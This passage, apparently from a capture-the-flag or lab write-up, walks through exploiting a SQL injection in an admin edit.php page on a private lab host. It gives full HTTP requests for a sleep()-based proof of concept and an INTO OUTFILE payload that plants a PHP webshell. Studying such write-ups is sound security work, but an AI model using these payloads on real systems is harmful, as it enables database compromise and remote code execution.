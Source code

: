 
### SQL Injection - Exploitation
With all the information gathered from the previous analysis, it was now time to build an actual query to inject.
Since it was just a Proof of Concept I started by injecting a simple sleep() function to suspend the HTTP response for 10 seconds.

```
GET /admin/edit.php?id=1+UNION+SELECT+1,(SELECT+sleep(10)),3,4+--+- HTTP/1.1
Host: 192.168.56.118
Cookie: PHPSESSID=7kg82uff32fgejeuhvu9c0rvl6
Connection: close
```
*GET request with the SQL sleep() function*

```
SELECT * FROM posts WHERE id=1 UNION SELECT 1,(SELECT SLEEP(10)),3,4 -- -
```
*Database query with the injected sleep() function*

Success! I was now able to fully compromise the database data by injecting malicious SQL queries.

### From SQL Injection to Remote Code Execution
To complete this challenge, I had to inject an SQL query that would allow me to get code execution on the server.

For this purpose I used a well known method that allowed arbitrary file writing by using the SQL "INTO OUTFILE" statement.
The final task was to find a directory where the "www-data" user had write privileges and upload a PHP webshell to the server.

Since this was a white-box assessment, I quickly found the "/var/www/admin/uploads/" directory.

```
SELECT * FROM posts WHERE id=1 UNION SELECT 1,(SELECT '<?php echo system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/admin/uploads/cmd.php'),3,4 -- -
```
*Database query with the PHP webshell code*

```
GET /admin/edit.php?id=UNION+SELECT+1,(SELECT+'<%3fphp+echo+system($_GET["cmd"])%3b+%3f>'+INTO+OUTFILE+'/var/www/admin/uploads/cmd.php'),3,4+--+- HTTP/1.1
Host: 192.168.56.118
Cookie: PHPSESSID=7kg82uff32fgejeuhvu9c0rvl6
Connection: close
```
*GET request with the final SQL Injection payload*

After sending the request, I noticed the "cmd.php" file was created and contained the malicious PHP code, as seen in the picture below.

![](/assets/img/content/fc0ab53002f74b5a84324a49199c34ae.png)
*Result of the previous SQL Injection request*
